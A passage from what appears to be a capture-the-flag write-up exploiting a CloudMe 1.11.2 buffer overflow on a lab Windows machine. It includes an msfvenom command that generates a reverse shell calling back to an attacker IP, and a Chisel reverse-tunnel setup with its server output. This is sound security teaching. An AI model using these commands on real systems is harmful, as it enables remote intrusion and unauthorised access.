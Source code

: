 ```bat
CloudMe_1112(4376)[C:\Users\shaun\Downloads\CloudMe_1112.exe] -- POwn: shaun
Permissions: shaun [AllAccess]
Possible DLL Hijacking folder: C:\Users\shaun\Downloads (shaun [AllAccess])
Command Line: CloudMe_1112.exe

```

I decided to look into CloudMe, which turned out to be a file storage service operated by CloudMe AB that offers cloud storage, file synchronization and client software. After a quick Google search, I realised that there was a Buffer Overflow associated with this specific version: <https://www.exploit-db.com/exploits/48389>.

> CloudMe Sync is a synchronization application which sync your local  storage with the cloud storage, and it is listening on port 8888.


### Exploiting CloudMe

The one issue I had with this box is that the service wasn't always running. I had to restart the machine several times in order to ensure the service was running, to verify that it was available, I issued the following netstat command:

```
netstat -ano | findstr 8888
```

Once I was happy that the service was running, I needed to create a reverse shell which would be used within the exploit provided above. In order to create a reverse shell, I used the following MSFVenom command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.147 LPORT=9876 -f python
```

After the reverse shell python code was generated, I included it within the exploit script which now resembled the following:

<details></details>


Since it's a python exploit, I needed to do port forwarding and run it from our own host. [Chisel](https://github.com/jpillora/chisel.git) is a great tool for this -- Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

In order to complete the exploit, I needed to do the following:

#### On the Kali machine:

```bat
vagrant@ko:/opt/chisel$ ./chisel server -p 8080 --reverse
2020/09/11 09:09:17 server: Reverse tunnelling enabled
2020/09/11 09:09:17 server: Fingerprint e4:fa:3f:c1:be:b1:b0:1d:a2:dc:8c:91:91:20:3d:ef
2020/09/11 09:09:17 server: Listening on http://0.0.0.0:8080


2020/09/11 09:15:39 server: session#1: tun: proxy#R:8888=>8888: Listening
```
